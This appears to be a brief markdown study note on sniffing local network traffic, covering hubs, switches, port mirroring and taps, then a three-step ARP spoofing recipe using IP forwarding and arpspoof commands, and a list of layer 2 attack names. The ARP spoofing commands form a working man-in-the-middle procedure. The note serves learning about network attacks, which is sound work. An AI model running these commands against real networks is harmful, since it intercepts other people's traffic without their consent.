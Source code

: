 
# Tap into stream

Thre are two basic types of ethernet environments:

* Share of hub based
* Switched network

On a Wireless network `802.11b/g/n` act like a hub and allows you to see all
traffic!!!

On wired networks to monitor the traffic you can use:

* `Port Mirroring` or `SPAN (Switched Port Analyzer`
* Full-duplex tap in line with traffic (requires a special adapter)
* wireshark is built-into the Cisco Nexus 7000 series and many other devices

## Various techniques used to sniff traffic in local networks

### ARP Spoofing

* ARP spoofing
    * ARP is stateless
    * ARP `reply` can be sent, even if there's no `request` & it will be
        accepted
    * poison the cache by spoofing the MAC address
    * so that the traffic is sent to the spoofer rather to the network switch


1. Enable IP forwarding on your host:
```bash
# echo 1 > /proc/sys/net/ipv4/ip_forward
```
2. Spoof the victim that the hacker's MAC address is the gateway
```bash
# arpspoof -t victim gateway
```
3. Spoof the gateway to believe we're the victim
```bash
# arpspoof -t gateway victim
```


# Layer 2 attacks

Many of data (2nd) layer attacks involve cisco protocols.

Example layer 2 attacks:

* macof attack
* MAC spoofing
* CDP attack
* STP attack
